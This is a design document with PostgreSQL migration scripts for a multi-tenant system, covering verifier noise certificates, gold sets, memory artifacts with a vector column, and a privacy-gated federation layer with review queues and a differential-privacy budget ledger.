```sql
SELECT EXISTS (
  SELECT 1
  FROM m1_anchor_consents c
  JOIN m1_verifiers v ON v.id = c.verifier_id
  WHERE c.tenant_id             = NULLIF(current_setting('app.tenant_id', true), '')::uuid
    AND c.workspace_fingerprint = $1        -- W
    AND v.id                    = $2        -- V
    AND c.revoked_at IS NULL
    AND v.retired_at IS NULL
    AND c.consented_execution_hash = v.effective_execution_hash
);
```

Re-consent on change requires no machinery beyond what is above: a changed effective execution is, by the immutability trigger, a **new catalog row** with a new `id` — which no existing consent references — so the query returns false everywhere until each workspace consents again through `mark1 doctor`. The final equality predicate looks redundant (the insert trigger already enforced it) and is kept deliberately: it is the belt-and-braces read-side check that holds even if a catalog row were altered with triggers disabled, the same posture as `ro_012`'s unique-constraint-behind-the-lock. The edge enforces the same invariant locally from bundle data; this registry is the server-side truth that the policy compiler consults before enabling an anchor in any bundle and that customer reports cite when they claim a coverage band.
## Noise certificates and gold sets

Conventions, tenancy/devices, the receipt chain, witness heads and the verifier registry are covered above (`m1_001`–`m1_005`); this part continues the numbering. The four-valued `verdict` enum (`satisfied | violated | refused | error`, adopted verbatim from platform migration `008`) is defined above and used unqualified below.

A noise certificate is contract C5 made durable: the stored, checkable claim that a verifier's flip rates ρ₊/ρ₋ were measured on a frozen gold set and satisfy the Natarajan condition ρ₊+ρ₋ < 1. Status is earned by constraint, not assigned by code: a row cannot *be* `certified` unless the facts that justify certification are present in the row. Freshness is enforced at read time by `mark1_assert_certified()` rather than by a sweeper — an expired cert fails the gate the instant it expires, and no role needs cross-tenant UPDATE to flip statuses.

Gold-set membership is server-selected and **edge-indistinguishable by construction**: membership exists only in `gold_set_members`, which no edge-facing surface reads; tasks and events carry no membership marker anywhere in `m1p.v1` (part 1) or in any PolicyBundle section (`verify|route|memory|cortex|gates|agent_maps` — there is no per-task field a marker could ride in). Selection is a server-side join on `task_digest`, the per-tenant HMAC the ledger already carries, so the edge cannot even test membership by hashing.

```sql
-- m1_006_noise_certs_gold_sets.sql
-- Noise certificates (C5) + gold sets. A verifier's verdicts are worthless as
-- training labels until its noise is measured; this migration stores the
-- measurement and makes "certified" a constraint-checked fact, not a flag.
-- The rule "a non-certified verdict must not gate memory extraction or corpus
-- admission" is mark1_assert_certified(), attached here to corpus_admissions
-- and in m1_007 to memory-artifact admission — one function, both gates.
-- Idempotent + re-runnable, house style.

BEGIN;

CREATE EXTENSION IF NOT EXISTS pgcrypto;

DO $$
BEGIN
  IF NOT EXISTS (SELECT 1 FROM pg_type WHERE typname = 'cert_status') THEN
    -- 'bootstrapping' is distinct from 'uncertified' because it is an honest
    -- public answer ("we are measuring") rather than an absence; C5 requires
    -- reports to say which one it is.
    CREATE TYPE cert_status AS ENUM ('uncertified', 'bootstrapping', 'certified');
  END IF;
END $$;

CREATE TABLE IF NOT EXISTS gold_sets (
  id          uuid PRIMARY KEY DEFAULT gen_random_uuid(),
  tenant_id   uuid NOT NULL REFERENCES tenants(id) ON DELETE RESTRICT,
  agent       text NOT NULL,             -- claudecode|codex|…: gold labels do not transfer across hook vocabularies
  -- NULL = still accepting members. A certificate may only cite a frozen set:
  -- ρ measured against a moving target is not a measurement.
  frozen_at   timestamptz,
  created_at  timestamptz NOT NULL DEFAULT now()
);

CREATE TABLE IF NOT EXISTS gold_set_members (
  gold_set_id  uuid NOT NULL REFERENCES gold_sets(id) ON DELETE CASCADE,  -- members are meaningless without their set
  tenant_id    uuid NOT NULL,            -- denormalized so RLS holds on this table without a join
  -- Per-tenant HMAC of (session_id, task_id): joins to ledger events without
  -- naming them, and is the ONLY membership record anywhere — bytea, not uuid,
  -- because it is a digest, not an identity we mint.
  task_digest  bytea NOT NULL CHECK (octet_length(task_digest) = 32),
  true_label   verdict NOT NULL,         -- adjudicated ground truth, four-valued like every verdict
  labeled_at   timestamptz NOT NULL DEFAULT now(),
  PRIMARY KEY (gold_set_id, task_digest) -- one label per task per set; relabeling is an UPDATE, not a duplicate
);

CREATE TABLE IF NOT EXISTS noise_certificates (
  id           uuid PRIMARY KEY DEFAULT gen_random_uuid(),
  tenant_id    uuid NOT NULL REFERENCES tenants(id) ON DELETE RESTRICT,
  verifier_id  uuid NOT NULL REFERENCES verifier_registry(id) ON DELETE RESTRICT, -- a cert about a deleted verifier is still evidence
  gold_set_id  uuid REFERENCES gold_sets(id) ON DELETE RESTRICT,  -- NULL only while uncertified/bootstrapping
  status       cert_status NOT NULL DEFAULT 'uncertified',
  -- numeric(7,6), not float: ρ is a stored measurement compared in constraints,
  -- and float equality in a CHECK is a latent lie.
  rho_plus     numeric(7,6) CHECK (rho_plus  >= 0 AND rho_plus  < 1),
  rho_minus    numeric(7,6) CHECK (rho_minus >= 0 AND rho_minus < 1),
  gold_n       int CHECK (gold_n >= 0),  -- size of the frozen set AT ISSUE; the set can grow later, the cert's basis cannot
  identifiable boolean NOT NULL DEFAULT false,  -- spectral Dawid–Skene identifiability gate passed
  diagnostics  jsonb NOT NULL DEFAULT '{}'::jsonb, -- spectral gap, condition number, per-class support; jsonb because the diagnostic set evolves with the estimator
  issued_at    timestamptz,
  expires_at   timestamptz,              -- the freshness gate; enforced at read time by mark1_assert_certified()
  receipt_id   uuid,                     -- C13: certification is one of the six per-event-receipted actions
  -- THE STATUS IS EARNED. A row cannot claim 'certified' unless the Natarajan
  -- condition, the identifiability diagnostic, the size gate and a frozen set
  -- are all present in the row itself. Below any of these, the honest status
  -- is 'uncertified'/'bootstrapping' — exactly what C5 demands.
  CONSTRAINT certified_is_earned CHECK (
    status <> 'certified' OR (
      rho_plus IS NOT NULL AND rho_minus IS NOT NULL
      AND rho_plus + rho_minus < 1        -- Natarajan condition, stored as a checkable fact
      AND identifiable
      AND gold_n >= 200                   -- size gate: Paper II sample-complexity floor; changing it is deliberately a migration
      AND gold_set_id IS NOT NULL
      AND issued_at IS NOT NULL AND expires_at IS NOT NULL AND expires_at > issued_at
    )
  )
);

-- One live certificate per (tenant, verifier): the fusion bundle compiler must
-- never have two answers for "what is this verifier's noise".
CREATE UNIQUE INDEX IF NOT EXISTS uq_cert_live
  ON noise_certificates (tenant_id, verifier_id)
  WHERE status = 'certified';

-- THE GATE. Both consumers of certification (memory extraction, corpus
-- admission) call this in a BEFORE trigger. Freshness lives here and not in a
-- sweeper: the moment expires_at passes, the gate fails closed, whether or not
-- any job has run. STABLE, not IMMUTABLE — it reads a table and the clock.
CREATE OR REPLACE FUNCTION mark1_assert_certified(p_cert uuid) RETURNS uuid
LANGUAGE plpgsql STABLE AS $$
DECLARE ok boolean;
BEGIN
  SELECT (status = 'certified' AND expires_at > now()) INTO ok
    FROM noise_certificates WHERE id = p_cert;
  IF ok IS DISTINCT FROM true THEN
    RAISE EXCEPTION 'cert % is not currently certified: non-certified verdicts do not gate admission (C5)', p_cert
      USING ERRCODE = 'check_violation';
  END IF;
  RETURN p_cert;
END $$;

-- Corpus admission: the Postgres-side row the corpus-exporter joins before a
-- trajectory may enter the training corpus. One row per admitted task.
CREATE TABLE IF NOT EXISTS corpus_admissions (
  id           uuid PRIMARY KEY DEFAULT gen_random_uuid(),
  tenant_id    uuid NOT NULL REFERENCES tenants(id) ON DELETE RESTRICT,
  task_digest  bytea NOT NULL CHECK (octet_length(task_digest) = 32),  -- same per-tenant HMAC key as gold members: joinable in-tenant only
  label        verdict NOT NULL,
  cert_id      uuid NOT NULL REFERENCES noise_certificates(id) ON DELETE RESTRICT, -- the label's warrant; deleting the warrant would orphan the label
  admitted_at  timestamptz NOT NULL DEFAULT now(),
  receipt_id   uuid,                     -- corpus export is per-event receipted (C13)
  CONSTRAINT uq_corpus_admission UNIQUE (tenant_id, task_digest)  -- re-admission overwrites, never double-counts
);

CREATE OR REPLACE FUNCTION trg_corpus_requires_cert() RETURNS trigger
LANGUAGE plpgsql AS $$
BEGIN
  PERFORM mark1_assert_certified(NEW.cert_id);
  RETURN NEW;
END $$;

DROP TRIGGER IF EXISTS corpus_admission_cert_gate ON corpus_admissions;
CREATE TRIGGER corpus_admission_cert_gate
  BEFORE INSERT OR UPDATE OF cert_id ON corpus_admissions
  FOR EACH ROW EXECUTE FUNCTION trg_corpus_requires_cert();

-- RLS: canonical form. All four tables take writes, so WITH CHECK is symmetric.
DO $$
DECLARE t text;
BEGIN
  FOREACH t IN ARRAY ARRAY['gold_sets','gold_set_members','noise_certificates','corpus_admissions'] LOOP
    EXECUTE format('ALTER TABLE %I ENABLE ROW LEVEL SECURITY', t);
    EXECUTE format('ALTER TABLE %I FORCE ROW LEVEL SECURITY', t);
    EXECUTE format('DROP POLICY IF EXISTS tenant_isolation ON %I', t);
    EXECUTE format(
      'CREATE POLICY tenant_isolation ON %I '
      'USING (tenant_id = NULLIF(current_setting(''app.tenant_id'', true), '''')::uuid) '
      'WITH CHECK (tenant_id = NULLIF(current_setting(''app.tenant_id'', true), '''')::uuid)', t);
  END LOOP;
END $$;

-- Grants: adjudicator-svc owns certification; intel's exporter only reads certs
-- and writes admissions. Guarded so a cluster without m1_011's roles still applies.
DO $$
BEGIN
  IF EXISTS (SELECT 1 FROM pg_roles WHERE rolname = 'adjudicator_app') THEN
    GRANT SELECT, INSERT, UPDATE ON gold_sets, gold_set_members, noise_certificates TO adjudicator_app;
  END IF;
  IF EXISTS (SELECT 1 FROM pg_roles WHERE rolname = 'intel_app') THEN
    GRANT SELECT ON noise_certificates TO intel_app;
    GRANT SELECT, INSERT, UPDATE ON corpus_admissions TO intel_app;
  END IF;
END $$;

COMMIT;

-- ROLLBACK (run manually if needed):
-- BEGIN;
--   DROP TABLE IF EXISTS corpus_admissions;
--   DROP FUNCTION IF EXISTS trg_corpus_requires_cert();
--   DROP FUNCTION IF EXISTS mark1_assert_certified(uuid);
--   DROP TABLE IF EXISTS noise_certificates;
--   DROP TABLE IF EXISTS gold_set_members;
--   DROP TABLE IF EXISTS gold_sets;
--   DROP TYPE  IF EXISTS cert_status;
-- COMMIT;
```

## Memory artifacts and contributions

**The one pgvector column in Mark 1 lives here, and only here.** Error-signature matching is the single genuine fuzzy-match problem in the schema: two stack traces from the same pitfall differ in paths, line numbers and generated names, so no exact key exists to join them, and the whole value of a pitfall artifact is firing on the *paraphrase* of an error it has seen. Everything else that looks like a vector problem is not one: memory retrieval by task context is tag/kind filtering plus LCB ranking (relational); code localization is `cortexd`'s graph problem, decided at the edge, where graph-guided search beats embeddings outright (77.4 vs 58.8 Acc@10, LocAgent — spec §cortexd); dedupe and gold membership are exact HMAC equality; federation spans must match *exactly* or the m-count is fiction. A second vector column would buy recall nowhere and cost an ANN index plus an unauditable similarity predicate on tables whose queries must be explainable to a compliance reader.

The exclusion of `invariant` artifacts from publication is schema, not comment: publication-side tables carry `abstraction` under a composite FK back to the artifact, so the value cannot be misstated, and a `CHECK (abstraction <> 'invariant')` makes an invariant row unrepresentable in any publication table. An `invariant` encodes a fact about one tenant's codebase — the closest thing to source code an artifact can be — and no k-count launders that.

```sql
-- m1_007_memory_artifacts.sql
-- REMEMBER plane storage: distilled artifacts, the LCB admission ladder, the
-- single halfvec column for error-signature fuzz, and the contribution rows
-- the federation (k,m) gate aggregates. Admission is gated on a live noise
-- certificate via m1_006's mark1_assert_certified() — an uncertified verdict
-- can label nothing that enters memory.

BEGIN;

CREATE EXTENSION IF NOT EXISTS vector;   -- pgvector >= 0.7 for halfvec; ships with RDS PG15

DO $$
BEGIN
  IF NOT EXISTS (SELECT 1 FROM pg_type WHERE typname = 'artifact_abstraction') THEN
    -- 'instance': one observed episode. 'pattern': generalized across episodes,
    -- content-scrubbed. 'invariant': a fact about THIS tenant's codebase —
    -- publishable never (see CHECKs below).
    CREATE TYPE artifact_abstraction AS ENUM ('instance', 'pattern', 'invariant');
  END IF;
  IF NOT EXISTS (SELECT 1 FROM pg_type WHERE typname = 'artifact_kind') THEN
    CREATE TYPE artifact_kind AS ENUM ('pitfall', 'fix_pattern', 'preference', 'invariant');
  END IF;
  IF NOT EXISTS (SELECT 1 FROM pg_type WHERE typname = 'admission_state') THEN
    -- ADMIT-LCB ladder: extracted -> shadow (retrieved, never injected) ->
    -- admitted (injected) -> retired. States are one-directional except
    -- admitted->retired; the trigger below enforces the cert gate on the
    -- transition INTO 'admitted', which is the only transition that changes
    -- what a customer session sees.
    CREATE TYPE admission_state AS ENUM ('extracted', 'shadow', 'admitted', 'retired');
  END IF;
END $$;

CREATE TABLE IF NOT EXISTS memory_artifacts (
  id              uuid PRIMARY KEY DEFAULT gen_random_uuid(),
  tenant_id       uuid NOT NULL REFERENCES tenants(id) ON DELETE RESTRICT,
  abstraction     artifact_abstraction NOT NULL,
  kind            artifact_kind NOT NULL,
  -- The distilled body: typed sections (trigger, guidance, evidence refs),
  -- already redaction-admitted before it ever reaches this table. jsonb, not
  -- text, because retrieval filters on typed fields inside it.
  body            jsonb NOT NULL,
  -- THE vector column. halfvec, not vector: 2 bytes/dim halves the HNSW
  -- footprint and recall loss is unmeasurable at this dimensionality; 1024 dims
  -- matches the embedding model fixed in 06-lld-intelligence. NULLable: only
  -- pitfall-class artifacts carry an error signature.
  error_signature halfvec(1024),
  state           admission_state NOT NULL DEFAULT 'extracted',
  -- Tenant-scope LCB admission facts (ADMIT-LCB): the lower confidence bound on
  -- uplift, and the observation count it was computed from. numeric, not float,
  -- because the promotion comparison (lcb > 0) is a constraint-adjacent read.
  lcb             numeric(8,6),
  n_obs           int NOT NULL DEFAULT 0 CHECK (n_obs >= 0),
  cert_id         uuid REFERENCES noise_certificates(id) ON DELETE RESTRICT, -- the warrant for the labels behind lcb
  admitted_at     timestamptz,
  receipt_id      uuid,                  -- memory admission is per-event receipted (C13)
  created_at      timestamptz NOT NULL DEFAULT now(),
  updated_at      timestamptz NOT NULL DEFAULT now(),
  -- 'invariant' the kind and 'invariant' the abstraction must agree, or the
  -- publication CHECK below could be dodged by mislabeling.
  CONSTRAINT invariant_kinds_agree CHECK ((kind = 'invariant') = (abstraction = 'invariant')),
  -- Admitted rows must carry their evidence: an LCB, observations, and a cert.
  CONSTRAINT admitted_is_earned CHECK (
    state <> 'admitted' OR (lcb IS NOT NULL AND lcb > 0 AND n_obs > 0 AND cert_id IS NOT NULL AND admitted_at IS NOT NULL)
  ),
  -- FK target for the composite publication FK: (id, abstraction) is trivially
  -- unique given the PK; declaring it lets publication tables bind the
  -- abstraction value they CHECK against, instead of trusting a copy.
  CONSTRAINT uq_artifact_id_abstraction UNIQUE (id, abstraction)
);

-- The gate on the only transition a customer can feel. INSERTs arrive as
-- 'extracted' (extraction itself is also cert-gated — the extractor only reads
-- corpus_admissions rows, which m1_006 already gates — so this trigger is the
-- second, independent enforcement of the same C5 rule).
CREATE OR REPLACE FUNCTION trg_admission_requires_cert() RETURNS trigger
LANGUAGE plpgsql AS $$
BEGIN
  IF NEW.state = 'admitted' AND (TG_OP = 'INSERT' OR OLD.state IS DISTINCT FROM 'admitted') THEN
    PERFORM mark1_assert_certified(NEW.cert_id);
  END IF;
  RETURN NEW;
END $$;

DROP TRIGGER IF EXISTS artifact_admission_cert_gate ON memory_artifacts;
CREATE TRIGGER artifact_admission_cert_gate
  BEFORE INSERT OR UPDATE OF state ON memory_artifacts
  FOR EACH ROW EXECUTE FUNCTION trg_admission_requires_cert();

-- THE HNSW INDEX — the only ANN structure in the schema. m=16/ef_construction=64
-- are pgvector defaults, correct at this scale (artifacts are distilled, not
-- raw events; even a large tenant holds thousands, not millions). Partial on
-- signature-bearing rows so preference/invariant artifacts cost nothing here.
-- Cosine ops because signature embeddings are length-normalized by convention
-- and the retrieval threshold in 06 is stated in cosine distance.
CREATE INDEX IF NOT EXISTS ix_artifacts_error_signature
  ON memory_artifacts USING hnsw (error_signature halfvec_cosine_ops)
  WITH (m = 16, ef_construction = 64)
  WHERE error_signature IS NOT NULL;

-- Retrieval's relational path: injectable artifacts for a tenant, by kind.
CREATE INDEX IF NOT EXISTS ix_artifacts_injectable
  ON memory_artifacts (tenant_id, kind)
  WHERE state = 'admitted';

-- Contribution rows: one per (artifact, tenant, span). This is the table the
-- federation (k,m) gate GROUPs — the k-count and the per-span m-count are both
-- computed from here, never asserted.
CREATE TABLE IF NOT EXISTS artifact_contributions (
  id           uuid PRIMARY KEY DEFAULT gen_random_uuid(),
  artifact_id  uuid NOT NULL REFERENCES memory_artifacts(id) ON DELETE RESTRICT, -- contributions are the publication audit trail; they outlive nothing
  tenant_id    uuid NOT NULL REFERENCES tenants(id) ON DELETE RESTRICT,
  org_id       uuid NOT NULL REFERENCES organizations(id) ON DELETE RESTRICT,   -- denormalized: the m-count collapses on org, and a join at gate time is a join inside a trigger
  -- Digest of the NORMALIZED span content under the per-tenant HMAC key (part 1
  -- §digests). Deliberately NOT globally joinable: cross-tenant span identity is
  -- established only by the worker re-normalizing content, downstream of this table.
  span_digest  bytea NOT NULL CHECK (octet_length(span_digest) = 32),
  produced_at  timestamptz NOT NULL DEFAULT now(),
  CONSTRAINT uq_contribution UNIQUE (artifact_id, tenant_id, span_digest)  -- one tenant contributes a span once; re-observation is not re-production
);

CREATE INDEX IF NOT EXISTS ix_contributions_by_artifact ON artifact_contributions (artifact_id);

-- RLS. memory_artifacts and artifact_contributions take writes -> symmetric
-- WITH CHECK. The federation worker (m1_011, BYPASSRLS) reads across tenants
-- here; that is the named justification for its existence.
DO $$
DECLARE t text;
BEGIN
  FOREACH t IN ARRAY ARRAY['memory_artifacts','artifact_contributions'] LOOP
    EXECUTE format('ALTER TABLE %I ENABLE ROW LEVEL SECURITY', t);
    EXECUTE format('ALTER TABLE %I FORCE ROW LEVEL SECURITY', t);
    EXECUTE format('DROP POLICY IF EXISTS tenant_isolation ON %I', t);
    EXECUTE format(
      'CREATE POLICY tenant_isolation ON %I '
      'USING (tenant_id = NULLIF(current_setting(''app.tenant_id'', true), '''')::uuid) '
      'WITH CHECK (tenant_id = NULLIF(current_setting(''app.tenant_id'', true), '''')::uuid)', t);
  END LOOP;
END $$;

DO $$
BEGIN
  IF EXISTS (SELECT 1 FROM pg_roles WHERE rolname = 'intel_app') THEN
    GRANT SELECT, INSERT, UPDATE ON memory_artifacts, artifact_contributions TO intel_app;
  END IF;
  IF EXISTS (SELECT 1 FROM pg_roles WHERE rolname = 'mark1_federation_worker') THEN
    GRANT SELECT ON memory_artifacts, artifact_contributions TO mark1_federation_worker;
  END IF;
END $$;

COMMIT;

-- ROLLBACK (run manually if needed):
-- BEGIN;
--   DROP TABLE IF EXISTS artifact_contributions;
--   DROP TRIGGER IF EXISTS artifact_admission_cert_gate ON memory_artifacts;
--   DROP FUNCTION IF EXISTS trg_admission_requires_cert();
--   DROP TABLE IF EXISTS memory_artifacts;
--   DROP TYPE IF EXISTS admission_state;
--   DROP TYPE IF EXISTS artifact_kind;
--   DROP TYPE IF EXISTS artifact_abstraction;
-- COMMIT;
```

## Federation and privacy

The (k,m) gate (plan compliance point 6) is enforced twice on purpose: once as the `HAVING` clause the candidate query is built from — so the worker can only *find* artifacts that pass — and once as a trigger on the publication table — so a bug in the worker cannot *publish* one that doesn't. Counting is collusion-collapsed: tenants roll up to their org's `collusion_group_id`, so five tenants of one holding company count once toward m. Publication tables carry no `tenant_id` and no RLS by design: every row in them has already crossed the k,m∩/DP/review pipeline, and the absence of a tenant column is itself the guarantee that nothing tenant-attributable can be stored there. The ε ledger is the opposite: strictly tenant-scoped, append-only, with budget exhaustion enforced by trigger — an over-budget release fails at INSERT, before any bytes leave.

```sql
-- m1_008_federation.sql
-- The cross-tenant boundary: org verification + collusion collapse, the (k,m)
-- publication gate, intersection-reconstruction bookkeeping, the human review
-- queue, and the ε ledger. Everything above this boundary is tenant-scoped;
-- everything below it has provably shed tenant identity.

BEGIN;

-- (1) Verification facts about organizations. Control-plane rows, no tenant_id:
-- these are Omium's facts about a customer, not customer data.
CREATE TABLE IF NOT EXISTS org_verification (
  org_id             uuid PRIMARY KEY REFERENCES organizations(id) ON DELETE RESTRICT, -- verification history is audit evidence
  billing_verified_at timestamptz,      -- a real payment method cleared; NULL = not verified
  domain_verified_at  timestamptz,      -- DNS challenge on the org's claimed domain; NULL = not verified
  -- COLLUSION COLLAPSE. Orgs sharing a billing root, a corporate parent, or a
  -- domain root are assigned the same group id by the enrollment reviewer; the
  -- m-count is over DISTINCT groups. uuid with a per-org default so an org is
  -- its own group until someone proves otherwise — fail-toward-more-distinct
  -- would inflate m, so the default is the honest singleton.
  collusion_group_id  uuid NOT NULL DEFAULT gen_random_uuid(),
  updated_at          timestamptz NOT NULL DEFAULT now()
);

-- (2) Human review queue. Nothing publishes without a named human approving it.
DO $$
BEGIN
  IF NOT EXISTS (SELECT 1 FROM pg_type WHERE typname = 'review_state') THEN
    CREATE TYPE review_state AS ENUM ('pending', 'approved', 'rejected');
  END IF;
END $$;

CREATE TABLE IF NOT EXISTS publication_review_queue (
  id           uuid PRIMARY KEY DEFAULT gen_random_uuid(),
  artifact_id  uuid NOT NULL,
  abstraction  artifact_abstraction NOT NULL CHECK (abstraction <> 'invariant'), -- the schema-level exclusion, first of three
  -- Composite FK: the abstraction value is BOUND to the artifact row, not copied
  -- by hand — a mislabeled queue row is a constraint violation, not a review error.
  FOREIGN KEY (artifact_id, abstraction) REFERENCES memory_artifacts (id, abstraction) ON DELETE RESTRICT,
  -- The k,m-gated, DP-noised, redacted body AS THE REVIEWER SEES IT. text, not
  -- jsonb: reviewers approve exact bytes, and jsonb normalization would let the
  -- published bytes differ from the approved ones.
  candidate_body text NOT NULL,
  state        review_state NOT NULL DEFAULT 'pending',
  reviewer     text,                     -- IdP subject of the human; NULL only while pending
  decided_at   timestamptz,
  CONSTRAINT decided_is_attributed CHECK (state = 'pending' OR (reviewer IS NOT NULL AND decided_at IS NOT NULL))
);

-- (3) Publications. Global rows: no tenant_id — structurally nothing to leak.
CREATE TABLE IF NOT EXISTS artifact_publications (
  id           uuid PRIMARY KEY DEFAULT gen_random_uuid(),
  artifact_id  uuid NOT NULL,
  abstraction  artifact_abstraction NOT NULL CHECK (abstraction <> 'invariant'), -- exclusion, second of three
  FOREIGN KEY (artifact_id, abstraction) REFERENCES memory_artifacts (id, abstraction) ON DELETE RESTRICT,
  review_id    uuid NOT NULL REFERENCES publication_review_queue(id) ON DELETE RESTRICT, -- who approved this is permanent record
  body         text NOT NULL,            -- must byte-equal the approved candidate_body; asserted by the trigger below
  epsilon_spent numeric(8,6) NOT NULL CHECK (epsilon_spent >= 0), -- the DP cost of this release, mirrored per-tenant in the ε ledger
  published_at timestamptz NOT NULL DEFAULT now(),
  receipt_id   uuid NOT NULL,            -- bundle/artifact publication is per-event receipted (C13)
  CONSTRAINT uq_publication_per_artifact UNIQUE (artifact_id) -- an artifact publishes once; a revision is a new artifact
);

-- (4) Intersection-reconstruction bookkeeping. The published body is REBUILT
-- from spans, and each span's independent producers are recorded row-by-row —
-- the m-count is an aggregate over evidence, never a stored assertion.
CREATE TABLE IF NOT EXISTS publication_spans (
  publication_id uuid NOT NULL REFERENCES artifact_publications(id) ON DELETE RESTRICT,
  span_index     int  NOT NULL CHECK (span_index >= 0),  -- position in the reconstructed body
  span_sha256    bytea NOT NULL CHECK (octet_length(span_sha256) = 32), -- PLAIN hash, not HMAC: this content is post-gate and globally joinable by design (part 1 §digests)
  PRIMARY KEY (publication_id, span_index)
);

CREATE TABLE IF NOT EXISTS publication_span_producers (
  publication_id  uuid NOT NULL,
  span_index      int  NOT NULL,
  contribution_id uuid NOT NULL REFERENCES artifact_contributions(id) ON DELETE RESTRICT, -- the proof rows must outlive everything they prove
  FOREIGN KEY (publication_id, span_index) REFERENCES publication_spans (publication_id, span_index) ON DELETE RESTRICT,
  PRIMARY KEY (publication_id, span_index, contribution_id)
);

-- (5) THE GATE, form one: the HAVING clause. This is the exact shape the
-- worker's candidate query is generated from; constants k=25, m=5 are the
-- plan's Phase-5 gate values and live in ONE place (this comment and the
-- trigger below) so they cannot drift apart silently.
--
--   SELECT c.artifact_id
--     FROM artifact_contributions c
--     JOIN org_verification v
--       ON v.org_id = c.org_id
--      AND v.billing_verified_at IS NOT NULL
--      AND v.domain_verified_at  IS NOT NULL
--    GROUP BY c.artifact_id
--   HAVING count(DISTINCT c.tenant_id)          >= 25   -- k: independent producing tenants
--      AND count(DISTINCT v.collusion_group_id) >=  5;  -- m: collusion-collapsed verified orgs
--
-- THE GATE, form two: the trigger. Recomputes the same counts at publish time
-- and additionally enforces the per-span rule (each span independently produced
-- by >= m collusion groups), review approval, and body byte-equality. A worker
-- bug can now only fail to publish, never over-publish.
CREATE OR REPLACE FUNCTION trg_km_publication_gate() RETURNS trigger
LANGUAGE plpgsql AS $$
DECLARE
  k_count int; m_count int; bad_spans int; approved_body text;
BEGIN
  SELECT count(DISTINCT c.tenant_id), count(DISTINCT v.collusion_group_id)
    INTO k_count, m_count
    FROM artifact_contributions c
    JOIN org_verification v
      ON v.org_id = c.org_id
     AND v.billing_verified_at IS NOT NULL
     AND v.domain_verified_at  IS NOT NULL
   WHERE c.artifact_id = NEW.artifact_id;
  IF k_count < 25 OR m_count < 5 THEN
    RAISE EXCEPTION '(k,m) gate: artifact % has k=%, m=% (need k>=25, m>=5)', NEW.artifact_id, k_count, m_count
      USING ERRCODE = 'check_violation';
  END IF;

  -- Per-span: every span of the reconstructed body was independently produced
  -- by >= 5 collusion-collapsed groups. Runs AFTER because producer rows insert
  -- in the same transaction as the publication (constraint trigger, deferred).
  SELECT count(*) INTO bad_spans FROM (
    SELECT p.span_index
      FROM publication_spans p
      LEFT JOIN publication_span_producers pp
        ON (pp.publication_id, pp.span_index) = (p.publication_id, p.span_index)
      LEFT JOIN artifact_contributions c ON c.id = pp.contribution_id
      LEFT JOIN org_verification v ON v.org_id = c.org_id
     WHERE p.publication_id = NEW.id
     GROUP BY p.span_index
    HAVING count(DISTINCT v.collusion_group_id) < 5
  ) s;
  IF bad_spans > 0 THEN
    RAISE EXCEPTION 'intersection-reconstruction: % span(s) of publication % lack >=5 independent producers', bad_spans, NEW.id
      USING ERRCODE = 'check_violation';
  END IF;

  SELECT candidate_body INTO approved_body
    FROM publication_review_queue WHERE id = NEW.review_id AND state = 'approved';
  IF approved_body IS NULL THEN
    RAISE EXCEPTION 'publication % cites review % which is not approved', NEW.id, NEW.review_id
      USING ERRCODE = 'check_violation';
  END IF;
  IF approved_body <> NEW.body THEN
    RAISE EXCEPTION 'publication % body differs from the reviewed bytes', NEW.id
      USING ERRCODE = 'check_violation';
  END IF;
  RETURN NEW;
END $$;

DROP TRIGGER IF EXISTS km_publication_gate ON artifact_publications;
CREATE CONSTRAINT TRIGGER km_publication_gate
  AFTER INSERT ON artifact_publications
  DEFERRABLE INITIALLY DEFERRED   -- deferred so spans+producers can land in the same tx and still be checked
  FOR EACH ROW EXECUTE FUNCTION trg_km_publication_gate();

-- (6) The ε ledger. Tenant-scoped, append-only; composition is basic sequential
-- (a provable upper bound — advanced composition can only lower spend, so the
-- trigger fails safe), and exhaustion blocks the INSERT itself.
CREATE TABLE IF NOT EXISTS tenant_privacy_budgets (
  tenant_id   uuid PRIMARY KEY REFERENCES tenants(id) ON DELETE RESTRICT,
  epsilon_cap numeric(8,4) NOT NULL CHECK (epsilon_cap > 0),  -- contractual, per tenant; changing it is a contract change, so an UPDATE here is auditable
  delta_cap   numeric(12,10) NOT NULL DEFAULT 1e-6 CHECK (delta_cap > 0),
  updated_at  timestamptz NOT NULL DEFAULT now()
);

CREATE TABLE IF NOT EXISTS epsilon_ledger (
  id             uuid PRIMARY KEY DEFAULT gen_random_uuid(),
  tenant_id      uuid NOT NULL REFERENCES tenants(id) ON DELETE RESTRICT, -- spent budget is a legal record; it survives everything
  publication_id uuid REFERENCES artifact_publications(id) ON DELETE RESTRICT, -- NULL for non-publication releases (DP rollup exports)
  mechanism      text NOT NULL,           -- 'laplace_int' | 'gaussian_int' | ... (Google DP Go integer mechanisms)
  epsilon        numeric(8,6) NOT NULL CHECK (epsilon > 0),
  delta          numeric(12,10) NOT NULL DEFAULT 0 CHECK (delta >= 0),
  composed_at    timestamptz NOT NULL DEFAULT now(),
  receipt_id     uuid NOT NULL             -- every spend is receipted; an unreceipted spend is indistinguishable from a leak
);

-- BUDGET EXHAUSTION, encoded. Locks the budget row (serializing concurrent
-- spends for one tenant — correct: two half-budget releases racing must not
-- both pass), sums under basic sequential composition, and refuses the spend
-- that would cross the cap. No budget row = no spending at all: fail-closed
-- for tenants nobody provisioned.
CREATE OR REPLACE FUNCTION trg_epsilon_budget() RETURNS trigger
LANGUAGE plpgsql AS $$
DECLARE cap numeric; dcap numeric; spent numeric; dspent numeric;
BEGIN
  SELECT epsilon_cap, delta_cap INTO cap, dcap
    FROM tenant_privacy_budgets WHERE tenant_id = NEW.tenant_id FOR UPDATE;
  IF cap IS NULL THEN
    RAISE EXCEPTION 'no privacy budget provisioned for tenant %: DP release refused', NEW.tenant_id
      USING ERRCODE = 'check_violation';
  END IF;
  SELECT coalesce(sum(epsilon),0), coalesce(sum(delta),0) INTO spent, dspent
    FROM epsilon_ledger WHERE tenant_id = NEW.tenant_id;
  IF spent + NEW.epsilon > cap OR dspent + NEW.delta > dcap THEN
    RAISE EXCEPTION 'privacy budget exhausted for tenant %: spent ε=% of %, this release needs ε=%',
      NEW.tenant_id, spent, cap, NEW.epsilon
      USING ERRCODE = 'check_violation';
  END IF;
  RETURN NEW;
END $$;

DROP TRIGGER IF EXISTS epsilon_budget_gate ON epsilon_ledger;
CREATE TRIGGER epsilon_budget_gate
  BEFORE INSERT ON epsilon_ledger
  FOR EACH ROW EXECUTE FUNCTION trg_epsilon_budget();

-- The ledger is append-only at the privilege layer too (the ro_012 lesson:
-- a control that holds only because a trigger caught it has already failed).
REVOKE UPDATE, DELETE, TRUNCATE ON epsilon_ledger FROM PUBLIC;

